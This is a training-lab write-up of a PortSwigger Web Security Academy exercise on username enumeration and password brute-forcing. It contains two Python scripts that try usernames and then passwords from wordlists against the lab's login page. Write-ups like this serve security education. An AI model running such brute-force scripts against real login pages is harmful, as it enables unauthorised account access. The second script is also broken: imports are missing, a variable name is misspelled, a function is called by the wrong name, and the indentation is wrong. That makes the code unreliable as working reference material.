


# Lab-1: Username enumeration via different responses
> Raj Pastagiya | 16/11/2023

## Problem Statement

> This lab is vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, the usernames list and password list is given. 
> To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

### Summary
- The issue with authentication lies here in different and unique responses given by the web-application for invalid usernames and passwords separately.
	- The web-application gives "Invalid username" as response for the users that are not part of the web-application, which enables enumerating valid usernames
	- The web-application gives "Invalid password" as response for valid users and wrong password, which enables brute-forcing passwords for valid usernames
#### Looking at the site's response on Login Page
- Giving a potential username:password on the login page as "admin:admin" gives us response shown in below screenshot, which indicates that if we are not a valid user then "Invalid Username" will come as response message


- Based on this, let's create a simple python script which will use the list of usernames given to us and see if we find any usernames for which this message doesn't come.
	- Here the login request is POST with request payload as:
```
username: "admin"
password: "admin"
```
- We will use "requests" module to send HTTP requests, and then if we don't find "Invalid Username" in response text message then we can be sure that the username entered there might be a valid user. The script looks like below:
```python
#!/usr/bin/python3
#
#
# Imports here

# List of usernames to enumerate.
users = list()

# Read users.lst and store it in a list to be used further
with open("./users.lst", "rt") as userslst:
	for user in userslst.readlines():
		users.append(user.strip())

# request body in dictionary
payload = {"username": "admin", "password": "admin"}

url="https://0a1500fa046ab4f880c3440600630046.web-security-academy.net/login"

validUsers = list()

for user in users:

	print("[*] Trying username", user, sep=": ")
	payload["username"] = user # change the placeholder os username field to the user from users list
	# Send the HTTP POST request to the url
	response = requests.post(url, data=payload, verify=False)
	# check if the "Invalid username" is in the response, if not then valid username
	if "Invalid username" not in response.text:
		print("\t[+] Found valid username", user, sep=": ")
		validUSers.append(user)

print("\n\n[*] Valid Users", validUsers, sep=": ")
```

- Now if we try with the username found by the script, we see a different message saying "Invalid password" like shown in below screenshot:


- Now we can append to above script and use the found usernames to bruteforce the password based on password list we were given.
- In below script to make the script more easier to understand I have made functions for every requirements. Also the "user_enum()" function is same as the script shared above
```python
#!/usr/bin/python3
#
#
# Imports here

# request body in dictionary
payload = {"username": "admin", "password": "admin"}

url="https://0a1500fa046ab4f880c3440600630046.web-security-academy.net/login"

# List of usernames to enumerate.
def user_enum():
	# user enumeration script here
	
	return validUsers

def enum_password(validUsers):
	# List of passwords to enumerate.
	passwords = list()

	# Read passwords.lst and store it in a list to be used further
	with open("./passwords.lst", "rt") as passlst:
		for password in passlst.readlines():
			 passwords.append(password.strip())

for user in validUsers:
	payload["username"] = user # change the placeholder of username field to the user from users list
	for password in passwords:
		payload["password"] = password # change the placeholder of password field to the password from passwords list
		# Send the HTTP POST request to the url
		 response = requests.post(url, data=payload, verify=False)
		# check if the "Invalid password" is in the response, if not then valid password
		if "Invalid password" not in response.text:
			print(f"\t[+] Found valid username:password pair {user}:{password}")
			break

enum_password(enum_users())
```

#### \[+] The script is available at [brute-force.py](./script/brute-force.py)


